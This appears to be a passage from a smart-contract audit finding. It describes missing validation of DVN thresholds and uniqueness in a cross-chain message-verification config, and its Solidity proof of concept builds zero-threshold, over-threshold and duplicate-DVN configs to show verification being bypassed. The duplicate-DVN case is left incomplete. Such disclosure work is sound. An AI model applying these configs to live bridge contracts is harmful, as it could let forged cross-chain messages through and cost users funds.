 
Key issues:
1. No validation of threshold value
2. Threshold could be set to zero
3. No minimum threshold requirement
4. No relationship check between threshold and DVN count
5. No validation of DVN uniqueness

### Impact
- Messages could be verified with fewer confirmations than intended
- Security model could be compromised
- Potential for message verification bypass
- Reduced cross-chain security guarantees
- Possible centralization of verification power

### Proof of Concept
```solidity
contract ThresholdBypassExploit {
    function demonstrateBypasses(address receiveUln) external {
        // 1. Zero Threshold Attack
        UlnConfig memory config = UlnConfig({
            requiredDVNCount: 0,
            optionalDVNCount: 5,
            optionalDVNThreshold: 0,  // Set to zero
            confirmations: 1,
            requiredDVNs: new address[](0),
            optionalDVNs: new address[](5)
        });
        
        // Message will be verified without any DVN signatures
        bool verifiable = IReceiveUln(receiveUln).verifiable(
            config,
            bytes32(0),
            bytes32(0)
        );
        assert(verifiable == true);  // Will pass due to zero threshold
        
        // 2. Threshold > DVN Count Attack
        config.optionalDVNThreshold = 10;  // More than available DVNs
        config.optionalDVNCount = 5;
        
        // Message verification will be impossible
        verifiable = IReceiveUln(receiveUln).verifiable(
            config,
            bytes32(0),
            bytes32(0)
        );
        assert(verifiable == false);  // Will always fail
        
        // 3. Duplicate DVN Attack
        address[] memory dvns = new address[](5);
        dvns[0] = address(0x1);  // Same DVN repeated
        dvns[1] = address(0x1);
        dvns[2] = address(0x1);
        config.optionalDVNs = dvns;
        
        // Single DVN could satisfy multiple threshold requirements
    }
}
```
